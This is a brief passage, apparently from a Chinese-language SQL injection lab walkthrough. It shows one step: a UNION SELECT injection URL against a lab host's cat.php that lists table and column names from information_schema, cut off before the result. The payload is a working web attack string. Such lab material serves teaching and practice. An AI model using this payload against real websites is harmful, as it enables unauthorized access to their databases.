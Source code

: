![image](14.jpg)

e、获取表与列的对应关系：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

显示如下：
